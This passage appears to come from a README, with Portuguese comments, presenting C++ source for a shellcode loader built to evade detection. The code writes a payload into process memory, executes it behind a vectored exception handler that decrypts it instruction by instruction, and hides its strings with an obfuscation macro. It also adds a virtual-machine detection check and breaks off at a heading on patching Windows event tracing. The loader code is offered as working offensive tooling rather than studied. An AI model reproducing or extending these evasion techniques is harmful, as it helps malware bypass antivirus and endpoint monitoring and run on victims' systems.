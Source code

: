 ```cpp
    SIZE_T written_size = payload_size;
    status = NtWriteVirtualMemory(GetCurrentProcess(), payload_entry, payload, payload_size, &written_size);
    if (!NT_SUCCESS(status)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << OBF("NtWriteVirtualMemory failed with status: ") << status << std::endl;
        return EXIT_FAILURE;
    }

    payload_base = (DWORD64)payload_entry;

    // Este passo não é modificado
    DWORD breakStatus = SetHardwareBreakpoint(payload_entry);

    // Instalar VEH para lidar com a descriptografia/encriptação do payload após cada instrução ASM executada pelo payload
    PVOID veh = AddVectoredExceptionHandler(1, &VehDecryptHeapAsm);
    if (veh) {
		SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
        std::cout << OBF("Executing the payload with VEH ASM decryption...\n") << std::endl;
        VoidGate vg = (VoidGate)payload_entry;
        vg();
    }

    SIZE_T free_size = memory_size;
    status = NtFreeVirtualMemory(GetCurrentProcess(), &heap_memory, &free_size, MEM_RELEASE);
    if (!NT_SUCCESS(status)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << OBF("NtFreeVirtualMemory failed with status: ") << status << std::endl;
    }

    return EXIT_SUCCESS;
}
```

### vmaware_check.hpp e vmcheck.cpp

```
#pragma once
bool isRunningInVM();
```

```
#include "vmaware.hpp"

bool isRunningInVM() {
    return VM::detect();
}
```
## ETW Patch
